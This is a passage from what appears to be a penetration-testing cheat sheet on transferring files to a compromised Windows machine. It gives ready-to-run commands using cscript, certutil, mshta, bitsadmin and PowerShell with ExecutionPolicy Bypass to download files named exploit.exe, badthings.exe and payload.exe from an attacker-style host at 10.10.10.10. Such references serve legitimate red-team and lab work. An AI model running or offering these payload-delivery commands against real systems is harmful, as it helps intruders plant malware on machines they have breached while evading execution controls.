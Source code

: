 Now try to download a file to the local path:  
```
CMD C:\> cscript dl.vbs "http://10.10.10.10/archive.zip" ".\archive.zip"
```

### Uploading Files with CertUtil.exe
I've found that CertUtil can be quite reliable when all else seems to fail.

```
certutil.exe -urlcache -split -f http://10.10.10.10/exploit.exe
```

### Transfering Files using MSHTA
Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). And it can also be used to transfer files :D  
HTML:  
```
C:\>mshta http://10.10.10.10/badthings.exe
```

FTP:  
```
C:\>mshta ftp://10.10.10.10:21/badthings.exe
```

### Trasfering Files using Bitsadmin
Background Intelligent Transfer Service (BITS) is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitates asynchronous, prioritized, and throttled transfer of files between machines using idle network bandwidth. BITSAdmin is a command-line tool that you can use to create download or upload jobs and monitor their progress. For full, comprehensive documentation of the tool and all of its commands, see bitsadmin and bitsadmin examples in the Windows IT Pro Center.
```
C:\>bitsadmin /transfer badthings http://10.10.10.10:80/badthings.exe c:\users\public\payload.exe
```

### Uploading Files with PowerShell  

Test to see if we can run Powershell:
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

Test to see if we can run Powershell Version 2:
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

Try to download a file from a remote server to the windows temp folder from the Windows command line:
```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```
